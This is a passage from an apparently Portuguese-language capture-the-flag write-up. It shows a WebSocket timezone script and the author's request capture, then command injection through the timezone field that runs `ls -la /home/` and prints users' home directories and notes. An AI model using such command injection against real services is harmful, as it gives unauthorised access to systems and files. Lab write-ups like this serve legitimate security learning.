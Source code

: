 ```
    document.querySelector(".time").innerText = e.data;
};

// Atualiza o WebSocket com o timezone a cada 1 segundo
setInterval(() => {
    socket.send(timezone);
}, 1000);
```

Então a partir daí comecei capturar todas as requisições para poder ver se tem algo que da para ser explorado.
A todo tempo estava fazendo essa requisição. Ao Jogar no "repeater"
![](attachment/e1887fe4731de0c2714270debee272bb.png)

Explorando um pouco tentei um pouco de command Injection....
![](attachment/1c5f9b2da5c392a4f7769e383a66f970.png)

### `Command Injection`

Testando comando `ls -la /home/` e entrando pelos diretórios de cada usuário temos o seguinte esquema
```
/
├── gilbert/
│   ├── lrwxrwxrwx 1 gilbert gilbert     9 Sep 10  2023 .bash_history -> /dev/null
│   ├── -rw-r--r-- 1 gilbert gilbert   220 Feb 25  2020 .bash_logout
│   ├── -rw-r--r-- 1 gilbert gilbert  3771 Feb 25  2020 .bashrc
│   ├── -rw-r----- 1 sandra  gilbert    31 Sep 10  2023 dad.txt -> left you a note by the site -S (deixei uma nota para você pelo site -S)
│   ├── -rw-rw---- 1 gilbert gilbert   461 Sep 10  2023 hotel-jobs.txt
│   └── -rw-r--r-- 1 gilbert gilbert   807 Feb 25  2020 .profile
│
├── jojo/
│   ├── lrwxrwxrwx 1 jojo    jojo       9 Sep 10  2023 .bash_history -> /dev/null
│   ├── -rw-r--r-- 1 jojo    jojo     220 Feb 25  2020 .bash_logout
│   ├── -rw-r--r-- 1 jojo    jojo    3771 Feb 25  2020 .bashrc
│   ├── -rw-rw---- 1 jojo    jojo     223 Sep 10  2023 note.txt
│   └── -rw-r--r-- 1 jojo    jojo     807 Feb 25  2020 .profile
│
└── sandra/
```
